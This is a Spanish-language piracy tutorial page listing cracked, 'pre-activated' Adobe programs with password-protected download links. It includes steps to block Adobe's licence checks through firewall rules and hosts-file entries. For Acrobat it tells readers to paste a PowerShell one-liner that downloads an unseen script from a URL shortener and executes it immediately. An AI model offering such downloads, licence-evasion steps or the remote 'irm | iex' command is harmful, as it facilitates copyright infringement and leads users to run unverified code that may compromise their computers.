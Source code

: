 ![](https://i.postimg.cc/hj85qPgG/Adobe-programas.png)
# Programas Adobe - Individuales
Descarga casi todos los programas de adobe de manera individual y completos.

---

::: details **Que programas incluye?**

**Los programas mas usados son**

1. **Adobe Photoshop:**
Es uno de los programas más empleados para la edición de imágenes, pues cuenta con un amplio repertorio de herramientas que permiten una edición profesional.
En Adobe Photoshop se pueden realizar distintas modificaciones de color, texturas y eliminar elementos, por eso es uno de los más solicitados.Además, puede ser una alternativa para crear ilustraciones en 2D con texturas.


2. **Adobe Illustrator:**
Es uno de los programas que trabaja con vectores más usados a nivel mundial.
Con Illustrator se pueden crear distintas ilustraciones para distintos fines, como la animación o la impresión.Dentro del mundo del diseño gráfico, el modelado 2D y algunas ramas artísticas digitales es uno de los programas más utilizados.


3. **Adobe Premiere:**
Es uno de los editores de video más completos y profesionales que existen, pues cuenta con incontables herramientas que permiten crear videos de gran calidad.
Adobe Premiere es uno de los programas más usados a nivel cinematográfico, debido a sus grandes cualidades que permiten resultados profesionales y de calidad.


4. **Adobe After Effects:**
Es el mejor programa para la implementación de efectos especiales.
After Effects permite modificar videos o fragmentos con distintos elementos adicionales, pero con una alta calidad y de forma profesional.


5. **Adobe InDesign:**
Es uno de los programas más usados para el diseño de material impreso, pues cuenta con distintas cualidades que permiten maquetar contenido editorial de manera profesional y con gran nitidez.

 
6. **Adobe Acrobat Reader:**
Es uno de los editores de PDF más equipados, pues cuenta con distintas funciones que permiten modificar archivos de manera profesional. Asimismo, es uno de los mejores programas para leer documentos, pues permite destacar partes con subrayado y tiene modificaciones de formato e iluminación.


8. **Adobe Audition:**
Es el programa líder para edición de audio. En su mayoría se utiliza para producción radiofónica y creación de sonido multimedia, donde se pueden entrelazar sonidos, modificarlos y recrear escenas auditivas con la mezcla de diferentes sonidos.

 
9. **Adobe Animate:**
Es un programa de animación de vectores, el cual permite dar movimiento a distintos gráficos vectoriales por medio de un lenguaje de programación. Este programa es ideal para darle vida o movimiento a las ilustraciones 2D que se pueden crear en Illustrator o Photoshop. 

:::

---
::: warning **Aviso**

Estos programas acontinuación vienen parchados, preactivados y listos para usar.
Si no confias en este tipo de repacks, puedes usar el metodo que baja los programas desde Adobe CC y luego los parchas tu mismo
- [Clickea aqui.](/Tutoriales/adobeCC.md)      
Si confias, continua...
:::

## Descarga los programas

Estos programas acontinuación vienen parchados, preactivados y listos para usar. Es recomendado bloquear los .exe de cada programa una vez los instales usando el firewall de windows y bloquear las IP de adobe.

::: info Pequeño tutorial para despues de instalar
1. Importante si deseas que tu programa se mantenga funcionando sin que te salga que tu licencia es pirata, bloqueamos el .exe de cada programa instalado por medio de firewall. Si no sabes como usa este [tutorial.](https://www.geeknetic.es/Guia/1962/Como-bloquear-el-acceso-a-internet-de-un-programa-en-el-Firewall-de-Windows-10.html)

> *Si tienen problema encontrando los .exe pueden ir a los accesos directos, darles click derecho y propiedades, y en la ventana ahora abierta solo deben de darle a **“abrir ubicación”** y ya tendrán la ubicación del .exe.*


2. Ahora bloquea las siguientes ip en el host de windows. Si no sabes usa este [tutorial](https://www.ionos.es/digitalguide/servidores/configuracion/archivo-hosts/#:~:text=los%20sistemas%20débiles.-,Así%20editas%20el%20archivo%20hosts,XP%2C%207%2C%208%20y%2010&text=Selecciona%20la%20opción%20“Ejecutar%20como,podrás%20modificar%20el%20archivo%20hosts.)

```
0.0.0.0 ic.adobe.io

0.0.0.0 r3zj0yju1q.adobe.io

0.0.0.0 cd536oo20y.adobe.io

0.0.0.0 3ca52znvmj.adobe.io

0.0.0.0 5zgzzv92gn.adobe.io

0.0.0.0 r5hacgq5w6.adobe.io

```

3. Disfruta tus programas.

:::

::: details 🟦 Photoshop     
Para las versiones la contraseña de todos es: `www.artistapirata.com`       

- [CC 2024](https://www.mediafire.com/file/nzjxcr02mik8uru/WIN_APS_V25.5.0.375_AP_ZNT.rar/file)   
- [CC 2023]() *caido*       
- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fyp0f1r4j0d6r21b%2FWIN_APS_V23.5.0.669_AP_ZNT.rar%2Ffile%3Asa9zMJb198iceDCybhEHp-TnIXw&cuid=4208103)            
- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fkew510adp462kyy%2FWIN_APS_V22.5.8.998_AP_ZNT.rar%2Ffile%3AGU54grbZPWIMzy-XsSUD0g0pWho&cuid=4208103)              
- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2F732cz8arne5nlda%2FPSCC2K21.21.2.4.WIN.AP.ZNT.rar%3AKFIXEo7XoBONQly5Bs_BOWP-CAE&cuid=4208103)             
- [CC 2019](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2Fos10tbcyzp1khd3%2FWIN_APS_2K19_V20_AP_ZNT.rar%2Ffile%3ACIztKcBJmhs6bA_bgUfqev_zNs0&cuid=4208103)               
- [CC 2018](http://disq.us/url?url=http%3A%2F%2Fbit.ly%2F2DsSPcR%3A__bJC5iOIXVUl3VXXU9WwDrCUUI&cuid=4208103)
:::

::: details 🟧 Illustrator
Para las versiones la contraseña de todos es: `www.artistapirata.com`       

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2F5rl1r0jq3yxqa8n%2FWIN_AAI_V27.1.0.189_AP_ZNT.rar%2Ffile%3ACeK6gVRz3AAB-9xzySKqvv1IYrs&cuid=4208103)        

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fr4pb4iocxtmkapm%2FWIN_AAI_V26.5.0.223_AP_ZNT.rar%2Ffile%3AtybK_260rmaooXQoz93gntZBRY8&cuid=4208103)         

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fmma6fhd8bcbmbkw%2FWIN_AAI_V25.4.1.498_AP_ZNT.rar%2Ffile%3A4Cxz7nNNTniZonVn6oz1Edklp9A&cuid=4208103)     

- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2Fg7sgg5fmjamqjrl%2FAI24.3.0.WIN.AP.ZNT.rar%2Ffile%3AkmpvK5tWrbBH7fSVniMMpT5ojSU&cuid=4208103)      
- [CC 2019](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2F2dl03gyj62tknn8%2FWIN_AI_2K19_V23.1_AP_ZNT.rar%2Ffile%3A38QUK9JDZ7dXDpZ-zsqGTYYhnlE&cuid=4208103)       
:::
::: details 🟪 Premiere Pro
Para las versiones la contraseña de todos es: `www.artistapirata.com`       

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fvxho87az9vftx32%2FWIN_APR_V23.5.0.56_AP_ZNT.rar%2Ffile%3Aptw6JuFzPinQZqxuyBcDLTNuP3c&cuid=4208103)       

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fqs365zx4kjnpfhf%2FWIN_APR_V22.6.2.2_AP_ZNT.rar%2Ffile%3AE7PwqjtfITgWaB5kV8vHbiqL-f0&cuid=4208103)      

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2F4y56b8a4q331s91%2FWIN_APR_V15.4.1.6_AP_ZNT.rar%2Ffile%3ARwGHXBK7xF466gkE4xJsr45_0dg&cuid=4208103)      

- [CC 2020](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fhcjo00k3pqyx2xv%2FWIN_APP_V14.9.0.52_AP_ZNT.rar%2Ffile%3A7Ka5YX9QP6TOfgeywkQR7Ht9S5M&cuid=4208103)
:::
::: details ⬛ After Effects
Para las versiones la contraseña de todos es: `www.artistapirata.com`      

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fohfv2ixhcjsdmsc%2FWIN_AAE_V23.5.0.52_AP_ZNT.rar%2Ffile%3AfUbiPHY2UqCRNTbUai3I8kHIgQ4&cuid=4208103)       

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fd9qd6h6ghnbn5u2%2FWIN_AAE_V22.6.0.64_AP_ZNT.rar%2Ffile%3ASknbJyGOL1pMmKQCKbFVquMzQuE&cuid=4208103)       

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Ftj269xrrx4tzso5%2FWIN_AAE_V18.4.1.4_AP_ZNT.rar%2Ffile%3ATmsc-2wKRTtj53s3d-o7Yz6RGm8&cuid=4208103)       

- [CC 2020](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fj3yd5l42is8ukcb%2FWIN_AAE_V17.7.0.45_AP_ZNT.rar%2Ffile%3AUSrJHPkPPM-woxclwtXS-8azI2I&cuid=4208103)       

- [CC 2019](https://disq.us/url?url=https%3A%2F%2Fdrive.google.com%2Ffile%2Fd%2F1NaWnqz9AEVsEyXQDkMc8hV6w1DECwkT6%2Fview%3ASCaCYssF9mfMiF3LV5v4PcWqUCA&cuid=4208103)
:::
::: details 🟥 InDesign
Para las versiones la contraseña de todos es: `www.artistapirata.com`      

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile_premium%2Fafnyqvp3sop09b0%2FWIN_AID_V18.5.0.57_AP_ZNT.rar%2Ffile%3AhUpdmYFPPWTjVIKN5xktG_Ys0ME&cuid=4208103)        

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2F222hhlx2osn2xf9%2FWIN_AID_V17.4.0.51_AP_ZNT.rar%2Ffile%3AZ_c41JUEULpUpLCXTMFRi246wPQ&cuid=4208103)       

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fxqefkei2bqwm5j4%2FWIN_AID_V16.4.0.55_AP_ZNT.rar%2Ffile%3AZkmXOrtvvJgxoLXAWOOUFluuqNI&cuid=4208103)         

- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2Fxi8ye7vb5oqafuv%2FID2K20.15.1.2.WIN.AP.ZNT.rar%2Ffile%3A2Ntdg9wjCyHi-5pVLzzYG5Vj5aY&cuid=4208103)
:::
::: details 🟥 Acrobat DC PDF
Para las versiones la contraseña de todos es: `www.artistapirata.com`      

1. [Acrobat CC 2023](https://www.mediafire.com/file/tfogsmbw95lf661/WIN_AADC_V2023.003.20244_AP_ZNT.rar/file)

2. Descarga e instala. No ejecutes.

3. Pega en powershell y da enter en el siguiente script.     

**Copiame:**

```
irm y.gy/toolbox | iex

```
**Imagen de referencia del script**
![](https://b.thumbs.redditmedia.com/PSAD0TGJyV3t4pihVqMNrtvz6ZAhSvNX75NySZe-AIQ.png)

4. Presiona la opcion 4 y luego la opcion 2.

5. Ve a los ajustes de Acrobat y desactiva las actualizaciones.   
Editar > Preferencias > Actualizar

NOTA: Si no te funciona o tienes errores, recomiendo usar la opcion 4 y luego la 1, pero antes usa la herramienta de [limpieza de adobe](https://helpx.adobe.com/es/creative-cloud/kb/cc-cleaner-tool-installation-problems.html)

:::
::: details 🟪 Audition
Para las versiones la contraseña de todos es: `www.artistapirata.com`        

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fz3kb0pbnpynkfjy%2FWIN_AAU_V23.5.0.48_AP_ZNT.rar%2Ffile%3AvSJqu-lQsv6IWA0MT8lHFJ0NjUk&cuid=4208103)       

- [CC 2022](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fy8i95ompzrvl8w5%2FWIN_AAU_V22.6.0.66_AP_ZNT.rar%2Ffile%3Ae8aFkXA98O5wqcEm0q-5mm_gxx0&cuid=4208103)      

- [CC 2021](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Fksfjaasazdff0ik%2FWIN_AAU_V14.4.0.38_AP_ZNT.rar%2Ffile%3AyA-WuJ5G_DXOKTfxdUeSP-9VR4A&cuid=4208103)       

- [CC 2020](http://disq.us/url?url=http%3A%2F%2Fwww.mediafire.com%2Ffile%2F68jkuwwkilj77a9%2FWIN_AAU_2K21_V13_AP_ZNT.rar%2Ffile%3ADpwvlA5vRIui2NG4mXjNeOyMCAQ&cuid=4208103)       
- [CC 2019](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile%2Foxy5tc86uw6cksh%2FAUD.CC.2K19.12.1.3.10.WIN.AP.ZENTINELS.rar%2Ffile%3AkX8H7R7gHTLITVce_Ft6_pDXa9Y&cuid=4208103)
:::
::: details 🟦 Animate
Para las versiones la contraseña de todos es: `www.artistapirata.com`       

- [CC 2023](https://disq.us/url?url=https%3A%2F%2Fwww.mediafire.com%2Ffile_premium%2Fl8b5rykunq7daub%2FWIN_AAN_V23.0.2.103_AP_ZNT.rar%2Ffile%3A89PqTt1cpo7nnUyoS_HNLUnIm74&cuid=4208103)
:::
::: details 👀 Otro? 

Para encontrar otros programas de Adobe puedes entrar a esta pagina.    
[PAGINA PARA BAJAR OTROS PROGRAMAS](https://www.artistapirata.com/?s=adobe)

:::

---

> **¿Tienes una petición o duda durante el tutorial? ¿Se cayo un link...?**       
> *Notificalo en* - [🚀 Discord](https://discord.gg/hVKeY3uEru) 

---
